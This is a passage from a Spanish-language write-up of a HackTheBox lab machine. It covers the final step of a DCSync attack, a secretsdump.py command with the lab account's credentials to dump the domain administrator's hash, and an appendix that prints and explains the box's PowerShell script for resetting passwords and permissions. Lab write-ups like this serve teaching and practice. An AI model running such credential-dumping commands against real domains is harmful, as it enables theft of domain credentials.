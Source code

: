 Resultado de los dos comandos anteriores:

![imagen 19](Pasted image 20230716193806.png)

3. Ejecutar el script `secretsdump.py` para obtener el hash NT del administrador del dominio:

   ```bash
r1pfr4n@parrot> secretsdump.py 'htb.local/svc-alfresco:s3rvice@10.10.10.161'
   ```

Estos pasos permitirán explotar el DCSync attack sin la necesidad de crear una nueva cuenta. Sin embargo, es importante recordar que el tiempo es esencial debido al script de reinicio que se ejecuta cada 60 segundos.

## Anexo II: Script de Reinicio de Cuenta y Permisos

Dentro del proceso de análisis y exploración, se encontró un script en la ruta `C:\Users\Administrator\Documents>`. Este script parece tener como objetivo restablecer la información de la cuenta **svc-alfresco** y de varios otros usuarios. Específicamente, este script parece encargado de restablecer las contraseñas y pertenencias de grupos de ciertos usuarios, además de eliminar cualquier permiso DCSync que se haya otorgado.

Para hacerlo, el script importa el módulo **PowerView.ps1**, y luego procede a leer una lista de usuarios desde un archivo llamado `users.txt`. Para cada usuario de la lista, el script primero restablece la contraseña de **svc-alfresco** a "s3rvice", luego recopila todos los grupos a los que pertenece el usuario (excluyendo "Service Accounts"), y finalmente elimina cualquier permiso DCSync y todas las pertenencias de grupo del usuario. 

El script se ejecuta en un bucle infinito, con un retraso de 60 segundos entre cada iteración. Esto sugiere que cualquier cambio que se realice en los grupos de los usuarios de la lista o cualquier permiso DCSync que se otorgue será revertido en un plazo de 60 segundos.

A continuación se muestra el contenido del script y del archivo `users.txt`:

**Script:**

```powershell
Import-Module C:\Users\Administrator\Documents\PowerView.ps1

$users = Get-Content C:\Users\Administrator\Documents\users.txt

while($true)
{
    Start-Sleep 60

    Set-ADAccountPassword -Identity svc-alfresco -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "s3rvice" -Force)

    Foreach ($user in $users) {
        $groups = Get-ADPrincipalGroupMembership -Identity $user | where {$_.Name -ne "Service Accounts"}

        Remove-DomainObjectAcl -PrincipalIdentity $user -Rights DCSync

        if ($groups -ne $null){
            Remove-ADPrincipalGroupMembership -Identity $user -MemberOf $groups -Confirm:$false
        }
    }
}
```
